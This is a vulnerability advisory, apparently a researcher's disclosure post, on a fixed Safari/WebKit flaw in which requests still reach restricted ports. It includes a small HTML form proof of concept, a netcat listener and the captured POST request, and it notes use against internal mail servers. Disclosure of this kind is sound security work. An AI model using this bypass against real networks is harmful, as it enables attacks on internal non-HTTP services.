 ```yaml
---
layout: post
slug: "0007"
vendor: "Apple"
status: "fixed"
reported: "2021-03-13"
title: "Bypassing restricted port protection in WebKit"
---
```


**Summary:**

Safari restricted port blocking is not enforced properly. When requesting a page on a restricted port, only rendering is blocked, but the initial request gets sent to the restricted port.

**Steps to reproduce:**

1. Create an HTML file with this POC:

```
<form action="http://127.0.0.1:6000" method="POST" enctype="multipart/form-data">
    <label for="data">post data:</label>
    <input type="text" id="data" name="data">
</form>
```

{:start="2"}
2. Listen on port 6000 (a restricted port) with netcat: `$ nc -l 127.0.0.1 6000`
3. Open the HTML file created in `Step 1.` in Safari
4. Enter any value into the `post data:` form field, and press enter
5. See that Safari shows an error with the message:

```
Safari can't open the page "http://127.0.0.1:6000/". The error is: "Not allowed to use
restricted network port" (WebKitErrorDomain:103)
```

{:start="6"}
6. In the terminal running netcat, see that the request still got sent:

```
$ nc -l 127.0.0.1 6000
POST / HTTP/1.1
Host: 127.0.0.1:6000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFFmUrfH05DvsT29s
Origin: null
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15
Content-Length: 153
Accept-Language: en-gb
Accept-Encoding: gzip, deflate

------WebKitFormBoundaryFFmUrfH05DvsT29s
Content-Disposition: form-data; name="data"

123_test_post_data
------WebKitFormBoundaryFFmUrfH05DvsT29s--
```

**Impact:**

This could be used to bypass the restricted port protection, and send malicious commands to non-HTTP services running on these sensitive ports, like mail servers.
This blog post demonstrates the impact, exploiting internal SMTP servers: [https://cxsecurity.com/issue/WLB-2010030240](https://cxsecurity.com/issue/WLB-2010030240)

**[Disclosure Warning]:**

**This issue is subject to a 90 day disclosure deadline.** On `2021-06-11` this issue will be publicly disclosed. If you would like to redact additional information or if for some reason the issue can't be fixed until the deadline, let me know.

*This issue was fixed in [iOS/iPadOS 14.6](https://support.apple.com/en-us/HT212528), [macOS Big Sur 11.4](https://support.apple.com/en-us/HT212529), [Safari 14.1.1](https://support.apple.com/en-us/HT212534), [watchOS 7.5](https://support.apple.com/en-us/HT212533) and in [tvOS 14.6](https://support.apple.com/en-us/HT212532).*